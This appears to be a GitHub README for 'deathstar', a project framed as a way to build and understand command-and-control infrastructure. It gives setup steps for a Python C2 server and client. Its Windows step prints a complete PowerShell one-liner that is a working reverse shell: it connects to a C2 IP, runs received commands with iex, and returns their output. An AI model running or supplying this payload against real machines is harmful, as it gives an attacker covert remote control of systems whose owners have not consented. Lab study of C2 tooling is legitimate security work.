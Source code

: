 # deathstar
Building and understand C2 infrastructure.

# Deathstar web page
<img width="991" alt="Screenshot 2024-12-21 at 12 46 55 AM" src="https://github.com/user-attachments/assets/6a6addfc-2875-47ff-bb39-ac332fa91f11" />

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar.py`
2. Open link in web browser
    - `firefox 127.0.0.1:8000`
3. Modify `client.py` Deathstar IP
4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`

